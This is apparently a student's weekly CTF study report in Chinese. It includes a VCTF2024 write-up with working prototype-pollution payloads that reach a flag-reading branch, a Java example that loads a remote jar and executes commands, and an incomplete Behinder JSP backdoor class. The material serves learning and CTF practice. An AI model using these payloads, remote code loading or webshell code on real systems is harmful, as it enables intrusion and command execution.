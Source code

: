 <a name="RJC3l"></a>
# 完成事项
- VCTF一道JS题目继续深入了解JS
- 初步学习Java Classloader等
<a name="kfaNm"></a>
# 如何解决未完成事项

- 周末学
<a name="N3Kq7"></a>
# 下周待做事项

- 继续学习Java基础运行框架
- 复现阿里云CTF和NKCTF
<a name="nwngF"></a>
# 本周学习的知识分享
<a name="j4vWP"></a>
## VCTF2024 hackjs
这是两个漏洞，一个Node14漏洞，可以更改hasOwnProperty，使其报错<br />一个原型链污染[https://github.com/n8tz/CVE-2022-24999](https://github.com/n8tz/CVE-2022-24999)，出现于js中的qs库<br />qs是npm的一个库。里面的stringify() 方法可以将一个json对象直接转为以？和&符连接的形式。
```javascript
const express = require('express')
const fs = require('fs')
var bodyParser = require('body-parser');
const app = express()
app.use(bodyParser.urlencoded({
  extended: true
}));
app.use(bodyParser.json());

app.post('/plz', (req, res) => {

  venom = req.body.venom

  if (Object.keys(venom).length < 3 && venom.welcome == 159753) {
    try {
      if(venom.hasOwnProperty("text")){
        res.send(venom.text)
      }else{
        res.send("no text detected")
      }
    } catch {
      if (venom.text=="flag") {
        let flag=fs.readFileSync("/flag");
        res.send("Congratulations:"+flag);
      } else {
        res.end("Nothing here!")
      }
    }
  } else {
    res.end("happy game");
  }
})



app.get('/',
        function(req, res, next) {
          res.send('<title>oldjs</title><a>Hack me plz</a><br><form action="/plz" method="POST">text:<input type="text" name="venom[text]" value="ezjs"><input type="submit" value="Hack"></form>  ');
        });

app.listen(80, () => {
  console.log(`listening at port 80`)
}) 
```
这道题没有extract()和json.parse，所以不能传入json，会显示类型错误。<br />使用数组，由于qs的库把数组解析为对象，所以造成了漏洞<br />由于至少需要传入3个对象的属性，所以直接传入属性的时候无法让Object.keys(venom).length < 3，所以就需要原型链污染将一个属性设置到对象原型中，就可以不算在venom对象下的属性<br />然后就只用更改hasOwnProperty为任意字符串而不是函数就可以导致报错进入catch部分，所以payload有3个<br />venom[__proto__][text]=flag&venom[welcome]=159753&venom[hasOwnProperty]=1<br />venom[__proto__][welcome]=159753&venom[text]=flag&venom[hasOwnProperty]=1<br />venom[__proto__][hasOwnProperty]=1&venom[welcome]=159753&venom[text]=flag<br />需要注意的是原型链污染要放在传参的最前面，原因未知
<a name="ijZNj"></a>
## ClassLoader基础漏洞
<a name="TtJx2"></a>
### URLClassLoader
来源：[https://javasec.org/javase/ClassLoader/](https://javasec.org/javase/ClassLoader/)<br />URLClassLoader继承了ClassLoader，URLClassLoader提供了加载远程资源的能力，在写漏洞利用的payload或者webshell的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。<br />**TestURLClassLoader.java示例：**
```java
package com.anbai.sec.classloader;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;
/**
 * Creator: yz
*/
public class TestURLClassLoader {
    public static void main(String[] args) {
        try {
            // 定义远程加载的jar路径
            URL url = new URL("https://anbai.io/tools/cmd.jar");
            // 创建URLClassLoader对象，并加载远程jar包
            URLClassLoader ucl = new URLClassLoader(new URL[]{url});
            // 定义需要执行的系统命令
            String cmd = "ls";
            // 通过URLClassLoader加载远程jar包中的CMD类
            Class cmdClass = ucl.loadClass("CMD");
            // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
            // 获取命令执行结果的输入流
            InputStream           in   = process.getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[]                b    = new byte[1024];
            int                   a    = -1;
            // 从进程的输入流中读取数据，将读取的数据暂存到字节数组b中，然后将其写入到ByteArrayOutputStream对象baos中。这个过程会一直进行，直到输入流中没有更多的数据可读，此时in.read(b)会返回-1，表示已经读取到了流的末尾。
            // 读取命令执行结果
            while ((a = in.read(b)) != -1) {
                baos.write(b, 0, a);
            }
            // 输出命令执行结果
            System.out.println(baos.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
远程的cmd.jar中就一个CMD.class文件，对应的编译之前的代码片段如下：
```java
import java.io.IOException;
/**
 * Creator: yz
 */
public class CMD {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }
}
```
程序执行结果如下：
```java
README.md
        gitbook
        javaweb-sec-source
        javaweb-sec.iml
        jni
        pom.xml
```
<a name="Kdq8H"></a>
### JSP自定义类加载后门
<a name="ccY0G"></a>
#### **冰蝎JSP后门：**
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
class U extends ClassLoader {

    U(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}
%>
<%
                                                                                                                                                                                                                                                                                                                                                                                                                                                                         
%>
```
<a name="xQxM3"></a>
# 本周自己学习过程中遇到的问题和疑问点
Java学习主要在看书看资料，周末在NKCTF大大的爆零，网上搜出来的CVE需要后台密码才能利用，下周在WP出的时候好好看看
<a name="cHkXO"></a>
# 情感、思考、观点
这周阳了在床上躺了3天，忙学院特长班也忙了2天，广播台轮到我录最难的双语稿子，这周忙忙碌碌的Web学习有点拉下了，争取下周补回来，下周就没有这么多情况了
<a name="NNt53"></a>
# 在团队的感触和建议
在团队感受良好，逐渐融入集体了

